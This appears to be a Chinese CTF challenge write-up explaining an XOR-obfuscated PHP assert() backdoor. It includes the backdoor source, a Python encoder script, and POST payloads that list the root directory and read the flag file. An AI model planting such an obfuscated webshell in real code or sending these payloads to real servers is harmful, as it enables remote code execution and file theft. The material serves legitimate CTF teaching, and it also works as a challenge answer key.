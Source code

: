 # Helen_of_Troy
* 题目简介：我看不懂，但我大受震撼。
* HINT：简单的assert()后门。
* 解法：通过写脚本的方式解出加密后的语句` assert($_POST[2sC7F]);`，再利用assert()查找根目录下的文件` 2sC7F=print_r(scandir('/','r'))`，最后再读取flag文件` 2sC7F=readfile('/flagXXXXX','r')`
* 另解（更简单）：在本地PHP环境echo出三个变量的值` ($_,$__,$____)`,结合上下文拼凑出代码,再按上文方法解题。
  eg:
  ```php
    <?php
    $_=('!'^'@').('!'^'R').('!'^'R').('!'^'D').('!'^'S').('!'^'U'); 
    $__='_'.('!'^'q').('!'^'n').('!'^'r').('!'^'u'); 
    $___=$$__;
    $____=('@'^'r').('!'^'R').('!'^'b').('@'^'w').('!'^'g');
    echo "$_\($$__\[$____\]\)";
    ?>
  ```
* PS：HINT在比赛进行到一半后仍较少人做出该题放出。该题特性仅在PHP7.1以前的PHP版本可行，PHP7.1后assert不再支持代码执行，详见https://www.php.net/manual/zh/function.assert.php。
* 源码：
  ```php
    <?php
    $_=('!'^'@').('!'^'R').('!'^'R').('!'^'D').('!'^'S').('!'^'U'); // $_='assert';
    $__='_'.('!'^'q').('!'^'n').('!'^'r').('!'^'u'); // $__='_POST';
    $___=$$__;
    $____=('@'^'r').('!'^'R').('!'^'b').('@'^'w').('!'^'g');//$____='2sC7F';
    $_($___[$____]); // assert($_POST[2sC7F]);
    ?>X
  ```
  ```python
    #该脚本用于生成密文，解密脚本请自行编写
    #可打印ascii(33-126)
    import random
    #a,b,word[33-126]
    #chr():ascii转字符
    #ord():字符转ascii
    def wordMaker(word):
    for i in range (33,126):
        for j in range (33,126):
            if(chr(i^j)==word):
                print("('"+chr(i)+"'^'"+chr(j)+"')")
                return
    print("no such word"+word)
    all="2sC7F"#要加密的字符串
    for i in range(0,len(all)):
    wordMaker(list(all)[i])
  ```
* 考点：PHP异或、assert()代码执行
* 环境搭建：运行`build_docker.sh` 一键搭建。flag为静态，生成后会在根目录下。`entrypoint.sh`脚本会随机修改flag文件的名字，名字为flagXXXXX，默认映射端口为1337，请酌情修改脚本。